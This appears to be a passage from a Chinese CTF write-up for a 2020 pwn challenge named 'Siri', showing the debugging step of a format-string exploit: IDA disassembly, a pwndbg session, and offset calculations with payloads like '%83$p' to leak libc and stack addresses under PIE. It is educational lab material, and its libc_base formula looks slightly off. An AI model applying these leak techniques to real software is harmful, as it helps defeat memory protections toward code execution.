 ## 调试分析

程序中没有可以利用的`shell`函数，因此需要通过`libc`中的`gadget`来执行`get shell`操作。由于程序开启了`PIE`，首先我们的目标是获取程序栈的地址和`libc`的地址，才能进行下一步的利用。程序启动时通过`vmmap`获取程序当前的基址，然后加上`IDA`中调用`printf`函数的偏移，断下后通过`fmtarg`查看格式化字符串与目标数据的偏移：

```assembly
# IDA output
.text:000000000000129D                 call    _sprintf
.text:00000000000012A2                 lea     rax, [rbp+s]
.text:00000000000012A9                 mov     rdi, rax        ; format
.text:00000000000012AC                 mov     eax, 0
.text:00000000000012B1                 call    _printf         ;target!!
.text:00000000000012B6                 lea     rdi, s          ; s
.text:00000000000012BD                 call    _puts
.text:00000000000012C2                 mov     eax, 1
```

```shell
# gdb

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x55ebb3a55000     0x55ebb3a56000 r--p     1000 0      /home/hjc18/PWN/qwb2020/siri/Siri
    0x55ebb3a56000     0x55ebb3a57000 r-xp     1000 1000   /home/hjc18/PWN/qwb2020/siri/Siri
    0x55ebb3a57000     0x55ebb3a58000 r--p     1000 2000   /home/hjc18/PWN/qwb2020/siri/Siri
    0x55ebb3a58000     0x55ebb3a59000 r--p     1000 2000   /home/hjc18/PWN/qwb2020/siri/Siri
    
pwndbg> b *(0x12b1+0x55ebb3a55000)


# stack in printf()
      0x7ffcf4ebb970 -> 0x7ffcf4ebbaa0 
      0x7ffcf4ebb978 -> 0x4e326479f652c000
rbp   0x7ffcf4ebb980 -> 0x7ffcf4ebbaa0 //target_1
      0x7ffcf4ebb988 -> 0x55ebb3a5644c 
      0x7ffcf4ebb990 -> Remind me to libc : %83$p\n'
r8-5  0x7ffcf4ebb998 -> 'e to libc : %83$p\n'
      0x7ffcf4ebb9a0 -> 'c : %83$p\n'
      0x7ffcf4ebb9a8 -> 0xa70 /* 'p\n' */
      0x7ffcf4ebb9b0 -> 0x0
      0x7ffcf4ebba90 ->  0x7ffcf4ebbb00 
      0x7ffcf4ebba98 -> 0x4e326479f652c000
      0x7ffcf4ebbaa0 ->  0x55ebb3a564d0 
      0x7ffcf4ebbaa8 ->  0x7fe2754d5b97 (__libc_start_main+231) //target_2

pwndbg> fmtarg 0x7ffcf4ebbaa8 //libc
The index of format argument : 84 ("\%83$p")
pwndbg> fmtarg 0x7ffcf4ebb980 //satck
The index of format argument : 47 ("\%46$p")

libc_base = 0x7ffcf4ebbaa8-231-libc.sym['__libc_start_main']
stack = 0x7ffcf4ebb980+0x8
```

